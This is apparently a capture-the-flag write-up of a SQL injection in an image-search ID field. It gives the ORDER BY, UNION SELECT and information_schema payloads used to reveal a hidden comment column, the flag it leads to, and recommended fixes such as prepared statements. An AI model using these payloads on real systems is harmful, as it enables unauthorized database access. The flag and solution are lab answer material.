# SQL Injection in Image Search

## Description

Image search asked to input an ID. \
By searching IDs manually (`1, 2, 3, 4, 5`), we discovered an image titled **"HackMe?"**. \
This was a hint that the search mechanism can be exploitable. \

With **SQL Injection**, we found that the schema contained a table named `list_images`, containing the columns:
- `id`
- `url`
- `title`
- `comment`

We remarked that `comment` was not displayed, so we attempted to display it.

## Steps to Reproduce

### Identify Table Structure

First, we need to find the correct number of columns in the database.

``` sql
1 ORDER BY 1 --
1 ORDER BY 2 --
1 ORDER BY 3 --
```
We assume that the database uses this syntax.

List the existing table columns:

```sql
5 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
```

We discovered the table `list_images` with the columns: `id`, `url`, `title`, and `comment`.

### Display Hidden `comment` Column

`comment` was not displayed by default, so we did a query to retrieve its content:

```sql
5 UNION ALL SELECT id, comment FROM list_images
```

The comment of id 5 contained a cryptographic challenge:
```
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : `1928e8083cf461a51303633093573c46`
```

### Solve the Cryptographic Challenge

- **MD5 Decode** `1928e8083cf461a51303633093573c46` → `albatroz`
- **SHA-256 Hash** of `albatroz` (flag):
```
fe0ca5dd7978ae1baae2c1c19d49fbfbb37fe7905b9ad386cbbb8206c8422de6
```

## Danger
- **SQL Injection**: The search input is directly injected into the SQL query, allowing unauthorized access to the database structure and data.
- **Data Exposure**: Sensitive columns such as `comment` can be retrieved even if they are not meant to be displayed.
- **Potential for Full Database Dump**: An attacker could enumerate all tables, extract user credentials, or even modify the database.

## Recommended Fix

1. **Use Prepared Statements** (Parameterized Queries) to prevent direct SQL injection.

2. **Sanitize and Validate User Input**

Ensure that only **numeric values** are accepted when querying by ID.

3. **Limit Database Permissions**

Ensure the web application uses a **read-only** database user whenever possible.

4. **Hide Internal Database Structure**

Never expose database schema information through error messages or direct queries.

5. **Implement Web Application Firewalls (WAFs)**

Use **ModSecurity** or similar tools to detect and block SQL Injection attempts.
